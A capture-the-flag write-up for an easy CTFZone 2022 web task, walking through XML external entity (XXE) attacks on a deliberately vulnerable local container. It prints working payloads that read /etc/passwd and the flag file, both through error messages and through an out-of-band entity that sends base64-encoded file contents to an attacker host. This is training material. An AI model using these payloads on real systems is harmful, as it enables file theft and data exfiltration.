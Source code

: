 # SHELLter

Easy web task from CTFZone 2022

## Build instruction

Clone repo, build container with `docker-compose up` and go to `http://localhost:8008`

You can find exploit in `sploit/` folder.

## Walkthrough

First of all, let's visit starting page at `http://localhost:8008`:

![image1](images/start_page.png)

Seems like we get a shell session, but default commands are working different or not working at all.

![](images/first_commands.png)

But first greetings message advises to use `help` command. And we have this list of commands: 

![](images/allowed_commands.png)

Now let's take a look at requests in proxy history and noticed interesting POST request:

![](images/post_request.png)

Seems like its XXE, so let's send the request in Repeater and try exploiting this vulnerability. First of all, we can try to use classic XXE, but we won't get result of our payload:

```xml
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
<root><name>&test;</name><password>&test;</password></root>
```

![](images/classic_xxe.png)

And here we can try to exploit vulnerability by 2 ways: out-of-band XXE and error-based XXE. 

### Method 1: Error-based XXE

What if we try to send incorrect xml? Will it cause error? Yep, also we will see full error text:

```xml
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/wub-wub-wub'>]>
<root><name>&test;</name><password>&test;</password></root>
```

![](images/error.png)

So, we have error-based XXE. We can exploit this vulnerability by declaring two entities: first entity will be used to read the file and second will cause an error. Something like this:

```xml
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root[ 
  <!ELEMENT message ANY >
  <!ENTITY % NUMBER '<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
  <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%NUMBER;
]> 
<root>1</root>
```

![](images/poc_passwd.png)

And now we need to find flag on filesystem (`/flag.txt`):

```xml
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root[ 
  <!ELEMENT message ANY >
  <!ENTITY % NUMBER '<!ENTITY &#x25; file SYSTEM "file:///flag.txt">
  <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%NUMBER;
]> 
<root>1</root>
```

![](images/flag_via_error.png)

### Method 2: OOB XXE

As you can see in `login.php` file, external dtd was deactivating using `LIBXML_NONET` constant. But you can use php wrapper to bypass it:

payload:
```xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=../flag.txt">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://{ip}/dtd.xml?%data;'>">
```

dtd:
```xml
<?xml version="1.0" ?> 
<!DOCTYPE r [ 
<!ELEMENT r ANY > 
<!ENTITY % sp SYSTEM "php://filter/convert.base64-decode/resource=http://{ip}/dtd.xml"> 
%sp; 
%param1; 
]> 
<r>&exfil;</r>
```

Or you can use https to bypass (idk, php is so funny )